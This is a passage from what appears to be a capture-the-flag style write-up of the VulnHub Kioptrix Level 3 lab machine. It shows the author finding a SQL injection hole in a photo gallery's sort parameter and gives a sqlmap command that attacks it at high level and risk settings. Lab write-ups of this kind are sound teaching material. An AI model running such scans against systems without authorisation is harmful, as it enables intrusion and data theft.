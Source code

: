 ![Gallery|600](images/vulnhub-kioptrix-lvl3/gallery-1.png)

On using the sort option the URI of the page changes to include the sorting option selected as a query parameter.

![Gallery Sorting|600](images/vulnhub-kioptrix-lvl3/gallery-2.png)

I tested this parameter for SQL injection vulnerability and it was indeed vulnerable.

```bash
# Test URL for SQL Injection vulnerability
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=photoid#photos" --level 5 --risk 3 -p id,sort --dbms=mysql --output-dir=sqlmap
```
